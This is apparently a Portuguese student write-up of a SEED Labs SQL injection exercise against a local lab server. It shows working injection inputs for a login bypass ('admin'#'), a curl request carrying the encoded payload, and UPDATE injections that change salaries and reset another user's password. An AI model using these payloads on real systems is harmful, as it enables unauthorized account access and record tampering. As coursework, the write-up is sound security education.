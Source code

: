 # Trabalho realizado na semana 8

 Na fase de configuração, adicionamos uma nova entrada (10.9.0.5 www.seed-server.com) aos hosts conhecidos pela máquina virtual. Em seguida, iniciamos os containers Docker e abrimos uma shell SQL.

 ## Task 1

 A primeira tarefa consiste em selecionar os dados do utilizador Alice atrvés da shell SQL. Para isso executamos o seguinte comando:

```sql
SELECT * FROM credentials WHERE Name = "Alice";
```

![Task 1](../images/image1lab8.png)

## Task 2

### Task 2.1

Analisamos o ficheiro unsafe_home.php, e constatamos que o input do utilizador não é sanitizado, desta forma, existe uma vulnerabilidade a ser explorada. Para isso, acedemos ao site "www.seed-server.com" onde temos de inserir um username e uma password, sendo esta última cifrada. Assim, e tendo em conta a query, bastou inserir no campo do username o valor "admin'#" para que a verificação da password fosse comentada e termos acesso à conta admin.

![Task 2](../images/image2lab8.png)

### Task 2.2

Esta task é semalhante à anterior mas desta vez exploramos a vulnerabilidade através pedido HTTP GET. Para tal, e como é referido no enunciado, temos de cifrar os caracteres especiais ' e #, respetivamente %27 e %23, chegando assim ao seguinte comando:

```bash
curl "http://www.seed-server.com/unsafe_home.php?username=admin%27%23&Password="
```

Conseguimos assim o código html da página obtida na task anterior:

```html
!DOCTYPE html>
<html lang="en">
<head>
  <!-- Required meta tags -->
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">

  <!-- Bootstrap CSS -->
  <link rel="stylesheet" href="css/bootstrap.min.css">
  <link href="css/style_home.css" type="text/css" rel="stylesheet">

  <!-- Browser Tab title -->
  <title>SQLi Lab</title>
</head>
<body>
  <nav class="navbar fixed-top navbar-expand-lg navbar-light" style="background-color: #3EA055;">
    <div class="collapse navbar-collapse" id="navbarTogglerDemo01">
      <a class="navbar-brand" href="unsafe_home.php" ><img src="seed_logo.png" style="height: 40px; width: 200px;" alt="SEEDLabs"></a>

      <ul class='navbar-nav mr-auto mt-2 mt-lg-0' style='padding-left: 30px;'><li class='nav-item active'><a class='nav-link' href='unsafe_home.php'>Home <span class='sr-only'>(current)</span></a></li><li class='nav-item'><a class='nav-link' href='unsafe_edit_frontend.php'>Edit Profile</a></li></ul><button onclick='logout()' type='button' id='logoffBtn' class='nav-link my-2 my-lg-0'>Logout</button></div></nav><div class='container'><br><h1 class='text-center'><b> User Details </b></h1><hr><br><table class='table table-striped table-bordered'><thead class='thead-dark'><tr><th scope='col'>Username</th><th scope='col'>EId</th><th scope='col'>Salary</th><th scope='col'>Birthday</th><th scope='col'>SSN</th><th scope='col'>Nickname</th><th scope='col'>Email</th><th scope='col'>Address</th><th scope='col'>Ph. Number</th></tr></thead><tbody><tr><th scope='row'> Alice</th><td>10000</td><td>20000</td><td>9/20</td><td>10211002</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Boby</th><td>20000</td><td>30000</td><td>4/20</td><td>10213352</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Ryan</th><td>30000</td><td>50000</td><td>4/10</td><td>98993524</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Samy</th><td>40000</td><td>90000</td><td>1/11</td><td>32193525</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Ted</th><td>50000</td><td>110000</td><td>11/3</td><td>32111111</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Admin</th><td>99999</td><td>400000</td><td>3/5</td><td>43254314</td><td></td><td></td><td></td><td></td></tr></tbody></table>      <br><br>
      <div class="text-center">
        <p>
          Copyright &copy; SEED LABs
        </p>
      </div>
    </div>
    <script type="text/javascript">
    function logout(){
      location.href = "logoff.php";
    }
    </script>
  </body>
  </html>
  ```

  ### Task 2.3

  Para esta tarefa é necessário inserir dois statements no lugar de um, contudo, isso não funciona no MySQL porque a extensão mysqli do PHP, mais especificamente a API mysqli::query(), não permite a execução de múltiplas queries no servidor e não é possível contornar essa limitação usando a função mysqli->multiquery().

  ## Task 3

  ### Task 3.1

  Após darmos login na conta da Alice da mesma forma que acedemos à conta do admin, acedemos à página Edit Profile. Esta página é controlada através do ficheiro unsafe_edit_backend.php, o qual utiliza strings de input do utilizador que não são sanitizadas. Usamos o mesmo ataque anterior mas desta vez no phone number pois é o último campo, inserimos assim o valor "926773412',Salary='1" e alteramos o salário da Alice.

  ![Task 3](../images/image3lab8.png)

  ### Task 3.2

  Para alterar o salário de outro utilizador, aplicamos uma abordagem semelhante à mencionada anteriormente. Contudo, desenvolvemos uma cláusula WHERE com o nome desse utilizador e comentamos a parte da query relativa ao Id do perfil em que nos encontramos, "926773412',Salary='0' WHERE Name='Boby'#".

   ![Task 3](../images/image4lab8.png)

  ### Task 3.3

  Para alterar a password de outro utilizador, utilizamos a abordagem anterior mas temos de ter em conta que a password vai ser cifrada com criptografia SHA1. Para isso, utilizamos um encriptador online para encriptar a palavra "weak":

  ![Task 3](../images/image5lab8.png)

  Através desta nova password "weak", entramos na conta do Boby:

  ![Task 3](../images/image6lab8.png)

